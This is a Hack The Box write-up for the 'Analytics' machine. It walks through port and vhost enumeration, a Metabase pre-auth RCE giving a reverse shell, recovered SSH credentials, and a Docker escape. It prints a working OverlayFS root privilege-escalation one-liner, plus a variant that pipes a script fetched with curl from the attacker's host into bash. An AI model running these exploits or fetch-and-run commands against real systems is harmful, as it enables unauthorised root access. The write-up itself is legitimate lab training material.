

# Analytics

This is the write-up for the Analytics machine from Hack The Box.

# Reconnaissance

First, we execute a full port scan on the host.

```bash
┌──🮤 th3g3ntl3m4n🮥─🮤 192.168.100.77🮥─🮤 10.10.14.52🮥
├──🮤  ~/htb/seasonals/analytics🮥
└─ $  sudo nmap -v -sS -Pn -p- --min-rate=300 --max-rate=500 10.129.222.128

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Then we execute a port scan only on the open ports found on the host.

```bash
┌──🮤 th3g3ntl3m4n🮥─🮤 192.168.100.77🮥─🮤 10.10.14.52🮥
├──🮤  ~/htb/seasonals/analytics🮥
└─ $  sudo nmap -vv -sV -sC -Pn -p 22,80 -oA nmap/analytics 10.129.222.128

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBJ+m7rYl1vRtnm789pH3IRhxI4CNCANVj+N5kovboNzcw9vHsBwvPX3KYA3cxGbKiA0VqbKRpOHnpsMuHEXEVJc=
|   256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOtuEdoYxTohG80Bo6YCqSzUY9+qbnAFnhsk4yAZNqhM
80/tcp open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://analytical.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We found a domain. We write it down in our hosts file on our attack machine.



Accessing the website we’ve got.


It is a static site. As it is a web server, we run a brute-force directory enumeration on the host.

# Enumeration

```bash
┌──🮤 th3g3ntl3m4n🮥─🮤 192.168.100.77🮥─🮤 10.10.14.52🮥
├──🮤  ~/htb/seasonals/analytics🮥
└─ $  gobuster dir -e -u "http://analytical.htb/" -w "/usr/share/seclists/Discovery/Web-Content/raft-small-words.txt" -t 40 -x txt -o gobuster/analytical_root
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://analytical.htb/
[+] Method:                  GET
[+] Threads:                 40
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/raft-small-words.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
http://analytical.htb/images               (Status: 301) [Size: 178] [--> http://analytical.htb/images/]
http://analytical.htb/js                   (Status: 301) [Size: 178] [--> http://analytical.htb/js/]
http://analytical.htb/css                  (Status: 301) [Size: 178] [--> http://analytical.htb/css/]
http://analytical.htb/.                    (Status: 200) [Size: 17169]
Progress: 86014 / 86016 (100.00%)
===============================================================
Finished
===============================================================
```

We found nothing. We execute brute-force subdomains too.

```bash
┌──🮤 th3g3ntl3m4n🮥─🮤 192.168.100.77🮥─🮤 10.10.14.52🮥
├──🮤  ~/htb/seasonals/analytics🮥
└─ $  gobuster vhost -u "http://analytical.htb/" -w "/usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt" -t 40 -o gobuster/analytics_vhosts --append-domain                                                                                         [ 2:04PM ]
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:             http://analytical.htb/
[+] Method:          GET
[+] Threads:         40
[+] Wordlist:        /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
[+] User Agent:      gobuster/3.6
[+] Timeout:         10s
[+] Append Domain:   true
===============================================================
Starting gobuster in VHOST enumeration mode
===============================================================
Found: data.analytical.htb Status: 200 [Size: 77883]
Progress: 4989 / 4990 (99.98%)
===============================================================
Finished
===============================================================
```

We found a new subdomain and write it down in our local hosts file too.


Accessing the new subdomain on our browser.


We found the Metabase application installed in this subdomain. Searching for some vulnerabilities on the Internet, we found the following article.

[Chaining our way to Pre-Auth RCE in Metabase (CVE-2023-38646)](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/)

# Exploitation

First, we localized the setup-token installation.


Then, we capture the login request in our Burp Suite proxy and send it to the Repeater tab.


Now, we have changed the request for ours and opened our listener on our attack box.


Checking back our listener.

```bash
┌──🮤 th3g3ntl3m4n🮥─🮤 192.168.100.77🮥─🮤 10.10.14.217🮥
├──🮤  ~/htb/seasonals/analytics🮥
└─ $  rlwrap ncat -vnlp 9001                                                                                                                                                                                                                                       [10:38AM ]
Ncat: Version 7.94 ( https://nmap.org/ncat )
Ncat: Listening on [::]:9001
Ncat: Listening on 0.0.0.0:9001
Ncat: Connection from 10.10.11.233:40210.
cannot set terminal process group (1): Not a tty
bash: no job control in this shell
6e6963cfd541:/$ id
id
uid=2000(metabase) gid=2000(metabase) groups=2000(metabase),2000(metabase)
```

We get a shell, but searching around on the machine, we notice we are in a Docker Container.


We uploaded the Linpeas tool in order to verify possible ways to escape the container.


## Docker Escape

Executing Linpeas on the host, we got the following credentials.


| **USERNAME** | **PASSWORD** |
| --- | --- |
| `metalytics` | `An4lytics_ds20223#` |

We are successful to log into the SSH service.

```bash
┌──🮤 th3g3ntl3m4n🮥─🮤 192.168.100.77🮥─🮤 10.10.14.217🮥                                                                                                                                                                                                                       
├──🮤  ~/htb/seasonals/analytics🮥                                                                                                                                                                                                                                             
└─ $  ssh metalytics@analytical.htb                                                                                                                                                                                                                          [12:41PM 255 ⨯ ] 
The authenticity of host 'analytical.htb (10.10.11.233)' can't be established.                                                                                                                                                                                                
ED25519 key fingerprint is SHA256:TgNhCKF6jUX7MG8TC01/MUj/+u0EBasUVsdSQMHdyfY.                                                                                                                                                                                                
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'analytical.htb' (ED25519) to the list of known hosts.
metalytics@analytical.htb's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)
...
metalytics@analytics:~$ id
uid=1000(metalytics) gid=1000(metalytics) groups=1000(metalytics)
```

# Privilege Escalation

After some searching about kernel exploitation privilege escalation, we check this page.

[GameOverlay Vulnerability Impacts 40% of Ubuntu Workloads | Wiz Blog](https://www.wiz.io/blog/ubuntu-overlayfs-vulnerability)

In this page we got the followings CVEs.

| CVE |
| --- |
| CVE-2023-2640 |
| CVE-2023-32629 |

Searching for these CVEs, we found a PoC in this link

[Ubuntu Local Privilege Escalation (CVE-2023-2640 & CVE-2023-32629)](https://www.reddit.com/r/selfhosted/comments/15ecpck/ubuntu_local_privilege_escalation_cve20232640/)

Executing the PoC, we got RCE as root.

```bash
metalytics@analytics:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("id")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
uid=0(root) gid=1000(metalytics) groups=1000(metalytics)
```

Now, we create a bash payload on our machine and execute the curl command where there is the “id” command. Our file [shell.sh](http://shell.sh) is


We open a Python HTTP server and execute the PoC:

```bash
metalytics@analytics:/tmp$ unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/;
setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("curl http://10.10.14.217/shell.sh|bash")'
mkdir: cannot create directory ‘l’: File exists
mkdir: cannot create directory ‘u’: File exists
mkdir: cannot create directory ‘w’: File exists
mkdir: cannot create directory ‘m’: File exists
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100    54  100    54    0     0    163      0 --:--:-- --:--:-- --:--:--   164
```


